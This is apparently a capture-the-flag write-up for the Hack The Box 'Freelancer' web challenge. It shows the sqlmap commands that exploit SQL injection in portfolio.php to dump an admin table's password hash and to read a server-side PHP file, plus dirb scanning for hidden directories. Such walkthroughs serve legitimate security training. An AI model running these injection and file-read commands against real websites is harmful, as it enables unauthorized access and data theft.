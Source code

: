 # Freelancer

Use Burp to spider the website and find possible paths. Run burp and set up the proxy on the browser to `127.0.0.1:8080`. Refresh the page and forward the request with Burp. We can see that `portfolio.php` accept some paramenters.

Browse `ULR/portfolio.php?id=1` we can find and image and some text. From this we might understand that there is a database in behind. I decide to use `sqlmap` in order to read the database

With the following command I get the hash password of the `safeadmin` table.

``bash
sqlmap -u http://docker.hackthebox.eu:32486/portfolio.php?id=1 --tables
sqlmap -u http://docker.hackthebox.eu:32486/portfolio.php?id=1 -D freelancer -T safeadmin --dump

```

- Username: safeadm
- Password: $2y$10$s2ZCi/tHICnA97uf4MfbZuhmOZQXdCnrM9VM9LBMHPp68vAXNRf4K

Let's find a place in the website where to login with those credentials. Run `dirb` in order to find hidden directories.

```bash
dirb http://docker.hackthebox.eu:32486/ -o result.txt

```

`administrat` is the hidden directory. John is taking so much time in order to decrypt the password so i scan this directory in order to see which files are behind. Run dirbuster and select the starting point with that directory: `logout.php` and `panel.php` pop out. Run this command in order to read the file through sqlmap

```bash
sqlmap -u http://docker.hackthebox.eu:32486/portfolio.php?id=1 --file-read=/var/www/html/administrat/panel.php

```

Read the downloaded file in order to get the flag